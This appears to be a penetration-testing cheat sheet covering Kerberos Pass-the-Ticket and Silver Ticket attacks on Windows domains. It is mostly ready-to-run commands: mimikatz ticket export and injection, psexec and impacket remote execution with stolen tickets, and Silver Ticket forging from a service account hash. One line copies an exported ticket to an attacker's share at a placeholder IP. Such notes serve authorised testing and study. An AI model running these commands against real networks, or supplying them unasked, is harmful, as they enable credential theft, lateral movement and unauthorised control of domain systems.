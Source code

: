 ### Pass-the-Ticket
* We authenticate as a user on a target host via. their Kerberos TGT rather than using their NTLM hash.

PTT via. COMPROMISED HOST
```powershell
mimikatz> sekurlsa::tickets /export          # export tickets
mimikatz> kerberos::ptt [ticket_name.kirbi]  # inject into memory
cmd> psexec.exe \\target.hostname.com cmd    # authN to remote target using ticket
```

PTT via. KALI
```bash
# export tickets -> copy to Kali
mimikatz> sekurlsa::tickets /export                             
cmd> copy [ticket.kirbi] \\192.168.119.XXX\share\[ticket.kirbi]

# use ticket_converter.py to convert .kirbi to .ccache
# https://github.com/Zer1t0/ticket_converter
$ python ticket_converter.py ticket.kirbi ticket.ccache

# Set the ticket for impacket use
export KRB5CCNAME=<TGT_ccache_file_path>

# Execute remote commands with any of the following by using the TGT
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```

### Silver Ticket
* In this attack, user/group permissions in a Service Ticket are blindly trusted by the application on a target server running in the context of the service account. We forge our own Service Ticket (Silver Ticket) to access the resource (e.g. IIS app, MSSQL app) with any permissions we want. If the SPN/service account is used across multiple servers, we can leverage our Silver Ticket against all.
* Walkthrough of PTT via. compromised MSSQLSvc hash: https://stealthbits.com/blog/impersonating-service-accounts-with-silver-tickets/

SILVER TICKET via. COMPROMISED HOST
```powershell
# obtain SID of domain (remove RID -XXXX) at the end of the user SID string.
cmd> whoami /user
corp\offsec S-1-5-21-1602875587-2787523311-2599479668[-1103]

# generate the Silver Ticket (TGS) and inject it into memory
mimikatz > kerberos::golden /user:[user_name] /domain:[domain_name] /sid:[sid_value] 
        /target:[service_hostname] /service:[service_type] /rc4:[hash] /ptt
        
# abuse Silver Ticket (TGS)
cmd> psexec.exe -accepteula \\<remote_hostname> cmd   # psexec
cmd> sqlcmd.exe -S [service_hostname]                 # if service is MSSQL
```
